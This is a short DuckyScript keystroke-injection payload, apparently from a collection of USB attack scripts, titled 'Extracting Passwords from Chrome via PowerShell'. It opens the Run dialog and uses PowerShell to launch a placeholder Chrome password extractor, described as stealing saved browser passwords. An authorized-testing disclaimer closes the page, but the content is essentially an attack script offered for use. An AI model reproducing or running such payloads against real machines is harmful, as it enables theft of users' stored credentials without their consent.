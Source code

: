# Extracting Passwords from Chrome via PowerShell

Executes a Chrome password extractor tool to steal saved passwords from the Chrome browser.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "Start-Process 'C:\\path\\to\\chrome_password_extractor.exe'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.